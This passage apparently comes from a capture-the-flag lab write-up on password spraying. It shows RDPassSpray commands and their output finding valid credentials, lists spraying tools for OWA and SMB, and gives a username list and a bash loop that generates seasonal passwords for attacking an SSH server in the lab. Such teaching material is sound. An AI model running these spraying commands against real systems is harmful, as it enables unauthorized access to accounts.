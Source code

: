 Now, let's try using the (-u) option to specify the victim as a username and the (-p) option set the Spring2021!. The (-t) option is to select a single host to attack.

```bash
user@THM:~# python3 RDPassSpray.py -u victim -p Spring2021! -t 10.100.10.240:3026
[13-02-2021 16:47] - Total number of users to test: 1
[13-02-2021 16:47] - Total number of password to test: 1
[13-02-2021 16:47] - Total number of attempts: 1
[13-02-2021 16:47] - [*] Started running at: 13-02-2021 16:47:40
[13-02-2021 16:47] - [+] Cred successful (maybe even Admin access!): victim :: Spring2021!

```
The above output shows that we successfully found valid credentials victim:Spring2021!. Note that we can specify a domain name using the -d option if we are in an Active Directory environment.

```bash
user@THM:~# python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```
There are various tools that perform a spraying password attack against different services, such as:


**Outlook web access (OWA) portal** 

Tools:
- https://github.com/xFreed0m/RDPassSpray
- https://github.com/byt3bl33d3r/SprayingToolkit
 
**SMB**
Tool: Metasploit (auxiliary/scanner/smb/smb_login)

PRACTICAL
Use the following username list:

```bash
user@THM:~# cat usernames-list.txt 
admin
phillips
burgess
pittman
guess
```
Perform a password spraying attack to get access to the SSH://10.10.98.196 server to read /etc/flag. What is the flag?

```bash
# Generate password list
for year in {2020..2021}; do 
    for char in '!' '@' '#' '$' '%' '^' '&' '*' '(' ')'; do 
        echo "Fall${year}${char}"
    done
done > passwords.txt

└─# cat passwords.txt 
Fall2020!
Fall2020@
Fall2020#
Fall2020$
Fall2020%
Fall2020^
Fall2020&
Fall2020*
Fall2020(
Fall2020)
Fall2021!
Fall2021@
Fall2021#
Fall2021$
```